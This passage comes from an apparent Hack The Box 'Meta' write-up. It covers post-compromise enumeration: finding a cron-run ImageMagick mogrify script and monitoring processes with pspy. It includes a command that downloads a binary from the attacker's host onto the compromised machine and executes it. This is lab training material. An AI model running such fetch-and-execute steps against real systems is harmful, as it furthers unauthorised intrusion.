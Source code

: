 **And a Bash script in `/usr/local/bin/`:**
```shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ls -lah /usr/local/bin/convert_images.sh
-rwxr-xr-x 1 root root 126 Jan  3  2022 /usr/local/bin/convert_images.sh
```

**`/usr/local/bin/convert_images.sh`:**
```bash
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

**Monitoring processes via `pspy`:** 
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:48:28(HKT)]
└> file /opt/pspy/pspy64 
/opt/pspy/pspy64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=eLPXwvfdDroLoCiGThdy/ADWkD7F3M81WNJfXu4Bf/E1SsFRH7R_QKLzCzaJmU/fDV0SVhtETqaDiVRM5z9, stripped
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:48:35(HKT)]
└> python3 -m http.server -d /opt/pspy 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ wget http://10.10.14.19/pspy64 -O /tmp/pspy; chmod +x /tmp/pspy; /tmp/pspy
[...]
2023/08/16 03:50:01 CMD: UID=0    PID=14519  | /usr/sbin/CRON -f 
2023/08/16 03:50:01 CMD: UID=1000 PID=14518  | /bin/sh -c /usr/local/bin/convert_images.sh 
2023/08/16 03:50:01 CMD: UID=1000 PID=14521  | /bin/sh -c /usr/local/bin/convert_images.sh 
2023/08/16 03:50:01 CMD: UID=1000 PID=14523  | /usr/local/bin/mogrify -format png *.* 
2023/08/16 03:50:01 CMD: UID=1000 PID=14524  | pkill mogrify 
[...]
2023/08/16 03:51:01 CMD: UID=0    PID=14532  | /usr/sbin/CRON -f 
2023/08/16 03:51:01 CMD: UID=1000 PID=14533  | /bin/sh -c /usr/local/bin/convert_images.sh 
2023/08/16 03:51:01 CMD: UID=0    PID=14535  | /bin/sh -c rm /tmp/* 
2023/08/16 03:51:01 CMD: UID=1000 PID=14536  | /usr/local/bin/mogrify -format png *.* 
2023/08/16 03:51:01 CMD: UID=0    PID=14537  | /bin/sh -c rm /var/www/dev01.artcorp.htb/metaview/uploads/* 
2023/08/16 03:51:01 CMD: UID=1000 PID=14538  | pkill mogrify 
```

Looks like every minute, there's a cronjob is being ran.

**That cronjob will run as user `thomas` (UID 1000) and execute `/usr/local/bin/convert_images.sh` Bash script.**

Hmm... What's that `/usr/local/bin/convert_images.sh` Bash script do...

After searching for `mogrify`, I found [this page from ImageMagick](https://imagemagick.org/script/mogrify.php).

> Use the magick mogrify program to resize an image, blur, crop, despeckle, dither, draw on, flip, join, re-sample, and much more. This tool is similar to [magick](https://imagemagick.org/script/convert.php) except that the original image file is _overwritten_ (unless you change the file suffix with the [`-format`](https://imagemagick.org/script/command-line-options.php#format) option) with any changes you request. See [Command Line Processing](https://imagemagick.org/script/command-line-processing.php) for advice on how to structure your mogrify command or see below for sample usages of the command. (From [https://imagemagick.org/script/mogrify.php](https://imagemagick.org/script/mogrify.php))
